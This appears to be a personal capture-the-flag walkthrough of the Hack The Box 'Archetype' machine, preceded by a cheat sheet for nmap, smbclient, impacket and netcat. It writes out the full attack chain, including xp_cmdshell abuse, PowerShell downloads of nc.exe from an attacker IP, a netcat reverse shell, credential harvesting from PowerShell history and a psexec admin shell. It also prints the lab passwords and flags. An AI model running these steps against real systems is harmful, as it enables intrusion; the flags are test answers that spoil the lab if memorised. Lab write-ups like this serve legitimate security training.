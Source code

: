 # TIER 2 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, smbclient, impacket, netcat, winPEAS

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

**smbclient**: ftp-like client to access SMB/CIFS resources on servers

```
smbclient [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan] [-D|--directory=DIR] [-b|--send-buffer=BYTES]
       [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse] [-?|--help] [--usage] [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout]
       [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER]
       [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME] [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM]
       [-U|--user=[DOMAIN/]USERNAME%[PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash] [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN]
       [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE] [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-V|--version] [-c|--command=STRING]
```

**Impacket Colletion**: collection of python classes for working with network protocols

mssqlclient.py - establish authenticated connection to MS SQL
psexec.py - exploit writable shares on samba and start admin reverse shell

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**winpeas**: script that searches for possible paths to escalate privileges on windows hosts

--------------------------------------------------------------------

**WINDOWS CMDs**:<br>
dir --> ls<br>
type --> cat<br>

--------------------------------------------------------------------

## ARCHETYPE BOX

**TOOLS USED**: nmap, smbclient, impacket

**IP Address**: 10.129.100.57

```
nmap -sC -sV -p- -oN archetype_nmap.txt 10.129.100.57
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc)<br>
139 (netbios-ssn)<br>
445 (microsoft-ds)<br>
1433 (ms-sql-s)<br>
5985 (http)<br>
47001 (http)<br>
49664 (msrpc)<br>
49665 (msrpc)<br>
49666 (msrpc)<br>
49667 (msrpc)<br>
49668 (msrpc)<br>
49669 (msrpc)<br>

USER: guest

```
smbclient -N -L 10.129.100.57
```

SHARES:<br>
ADMIN$<br>
backups<br>
C$<br>
IPC$<br>

TARGET SHARE: backups (non-administrative because no $ so no password required)

```
smbclient //10.129.100.57/backups -U guest
> get prod.dtsConfig
```

USER: ARCHETYPE\sql_svc
PASSWORD: M3g4c0rp123

To establish authenticated connection to MS SQL:
```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.100.57 -windows-auth
> enable_xp_cmdshell
> reconfigure
```

Get exe file from host:
```
cd /opt/exe
sudo python3 -m http.server 80
```
```
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/nc.exe -outfile nc.exe"
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/winPEASx64.exe -outfile winPEAS.exe"
```

Start a reverse shell:
```
nc -nlvp 4444  
```
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc.exe -e cmd.exe 10.10.14.102 4444"
```

C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3

Priveledge Escalation:
```
> .\winPEAS.exe
```

PRIV ESC TARGET: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

FILE CONTENT: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

PASSWORD: MEGACORP_4dm1n!!

Exploit writable shares on samba and start admin reverse shell:
```
sudo python3 psexec.py administrator@10.129.100.57
```

FLAG: b91ccec3305e98240082d4474b848528
